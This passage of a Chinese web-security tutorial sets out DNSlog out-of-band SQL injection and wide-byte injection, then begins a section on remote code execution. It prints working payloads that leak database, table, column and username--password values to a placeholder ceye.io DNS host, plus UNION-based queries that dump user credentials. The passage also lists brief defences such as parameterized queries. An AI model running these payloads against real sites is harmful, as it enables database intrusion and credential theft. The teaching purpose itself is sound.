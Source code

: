 #### **DNSlog外带数据注入**

##### **查询数据库**

```sql
1' and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\sql_test'))),1,0)#
```

##### **查询表**

```sql
1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 3,1),'.xxxx.ceye.io\\sql_test'))),1,0)#
```

##### **查询列**

```sql
1' and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 4,1),'.xxxx.ceye.io\\sql_test'))),1,0)#
```

##### **查询值**

```sql
1' and if((select load_file(concat('\\\\',(select concat_ws('--',username,password) from users limit 0,1),'.xxxx.ceye.io\\sql_test'))),1,0)#
```



## 4.11.宽字节注入

**这里我就不讲原理了，需要了解宽字节注入原理的，请看我另一篇文章：[深入剖析SQL注入](https://jwt1399.top/posts/32179.html)**

**通过测试，发现这是post传参，所以BurpSuite抓包进行测试。**

```
\#确定字段数 1%df' order by 1 --+ 这里用order by判断字段数量会报错,暂时不知道什么原因。 #确定显示位 -1%df' union select 1,2 --+ #查询数据库 -1%df' union select 1,database() --+ #查询表名 -1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+ #查询字段名 -1%df' union select 1, group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+ 这里表名table_name的值必须转换成16进制，如果不用16进制就得用引号包裹，当有addlashes函数就会转义引号，就会导致查询失败，使用16进制避免了这个问题。 #查询字段信息 -1%df' union select 1,group_concat(username,0x3a,password) from users --+
```

**1.对传进SQL语句里面的变量进行过滤，不允许危险字符传入；**
**2.使用参数化（Parameterized Query 或 Parameterized Statement）；**
**3.还有就是,目前有很多ORM框架会自动使用参数化解决注入问题,但其也提供了”拼接”的方式,所以使用时需要慎重!**

## 

## **RCE**

### **基础知识准备**

> **RCE(Remote Command/Code Execute)，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。**
